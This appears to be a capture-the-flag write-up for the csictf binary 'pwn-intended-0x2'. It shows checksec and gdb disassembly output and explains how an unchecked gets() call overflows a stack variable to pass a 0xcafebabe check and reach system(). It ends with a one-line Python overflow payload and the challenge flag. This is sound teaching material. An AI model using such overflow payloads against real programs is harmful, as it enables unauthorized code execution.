 # pwn-intended-0x2
## Info 

```$ file pwn-intended-0x2
pwn-intended-0x2: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter
 /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=3fe5fe06984f7093c9122fb1b08fb834a63784d4, 
 for GNU/Linux 3.2.0, not stripped```

 ```bash
 $checksec pwn-intended-0x2
[*] pwn-intended-0x2'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
```
gdb-peda$ disass main
Dump of assembler code for function main:
   0x0000000000401156 <+0>:	push   rbp
   0x0000000000401157 <+1>:	mov    rbp,rsp
   0x000000000040115a <+4>:	sub    rsp,0x30
   0x000000000040115e <+8>:	mov    DWORD PTR [rbp-0x4],0x0
   0x0000000000401165 <+15>:	mov    rax,QWORD PTR [rip+0x2ef4]        # 0x404060 <stdout@@GLIBC_2.2.5>
   0x000000000040116c <+22>:	mov    esi,0x0
   0x0000000000401171 <+27>:	mov    rdi,rax
   0x0000000000401174 <+30>:	call   0x401040 <setbuf@plt>
   0x0000000000401179 <+35>:	mov    rax,QWORD PTR [rip+0x2ef0]        # 0x404070 <stdin@@GLIBC_2.2.5>
   0x0000000000401180 <+42>:	mov    esi,0x0
   0x0000000000401185 <+47>:	mov    rdi,rax
   0x0000000000401188 <+50>:	call   0x401040 <setbuf@plt>
   0x000000000040118d <+55>:	mov    rax,QWORD PTR [rip+0x2eec]        # 0x404080 <stderr@@GLIBC_2.2.5>
   0x0000000000401194 <+62>:	mov    esi,0x0
   0x0000000000401199 <+67>:	mov    rdi,rax
   0x000000000040119c <+70>:	call   0x401040 <setbuf@plt>
   0x00000000004011a1 <+75>:	lea    rdi,[rip+0xe60]        # 0x402008
   0x00000000004011a8 <+82>:	call   0x401030 <puts@plt>
   0x00000000004011ad <+87>:	lea    rax,[rbp-0x30]
   0x00000000004011b1 <+91>:	mov    rdi,rax
   0x00000000004011b4 <+94>:	mov    eax,0x0
   0x00000000004011b9 <+99>:	call   0x401060 <gets@plt>
   0x00000000004011be <+104>:	lea    rdi,[rip+0xe6c]        # 0x402031
   0x00000000004011c5 <+111>:	call   0x401030 <puts@plt>
   0x00000000004011ca <+116>:	cmp    DWORD PTR [rbp-0x4],0xcafebabe
   0x00000000004011d1 <+123>:	jne    0x4011f0 <main+154>
   0x00000000004011d3 <+125>:	lea    rdi,[rip+0xe66]        # 0x402040
   0x00000000004011da <+132>:	call   0x401030 <puts@plt>
   0x00000000004011df <+137>:	lea    rdi,[rip+0xe8a]        # 0x402070
   0x00000000004011e6 <+144>:	mov    eax,0x0
   0x00000000004011eb <+149>:	call   0x401050 <system@plt>
   0x00000000004011f0 <+154>:	mov    eax,0x0
   0x00000000004011f5 <+159>:	leave  
   0x00000000004011f6 <+160>:	ret    
End of assembler dump.
```
Here we have gets at <main+99> function which is vulnearable to function .
by using this function we overwrite bytes of data 

We can see that. there is a comparison at <main+116> so we are going to  use
this vulnearbility overwite the varible data which is comparing to 0xcafebabe
so we can easily bypass the check.


RAX: 0x0 
RBX: 0x0 
RCX: 0x7ffff7af4264 (<__GI___libc_write+20>:	cmp    rax,0xfffffffffffff000)
RDX: 0x7ffff7dd18c0 --> 0x0 
RSI: 0x7ffff7dd07e3 --> 0xdd18c0000000000a 
RDI: 0x1 
RBP: 0x7fffffffdf10 ("MMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ")
RSP: 0x7fffffffdee0 ("AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ")
RIP: 0x4011f5 (<main+159>:	leave)
R8 : 0xd ('\r')
R9 : 0x7ffff7fe14c0 (0x00007ffff7fe14c0)
R10: 0x3 
R11: 0x246 
R12: 0x401070 (<_start>:	endbr64)
R13: 0x7fffffffdff0 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0xa97 (CARRY PARITY ADJUST zero SIGN trap INTERRUPT direction OVERFLOW)
[-------------------------------------code-------------------------------------]
   0x4011e6 <main+144>:	mov    eax,0x0
   0x4011eb <main+149>:	call   0x401050 <system@plt>
   0x4011f0 <main+154>:	mov    eax,0x0
=> 0x4011f5 <main+159>:	leave  
   0x4011f6 <main+160>:	ret    
   0x4011f7:	nop    WORD PTR [rax+rax*1+0x0]
   0x401200 <__libc_csu_init>:	endbr64 
   0x401204 <__libc_csu_init+4>:	push   r15
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdee0 ("AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ")
0008| 0x7fffffffdee8 ("CCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ")
0016| 0x7fffffffdef0 ("EEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ")
0024| 0x7fffffffdef8 ("GGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ")
0032| 0x7fffffffdf00 ("IIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ")
0040| 0x7fffffffdf08 ("KKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ")
0048| 0x7fffffffdf10 ("MMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ")
0056| 0x7fffffffdf18 ("OOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 2, 0x00000000004011f5 in main ()

when i try to fill stack with values. i found it is 44 

so we can craft our exploit.

``` 
python -c 'print "A"*44 + '\xbe\xba\xfe\xca'' 
```
 
flag  csictf{c4n_y0u_re4lly_telep0rt?}








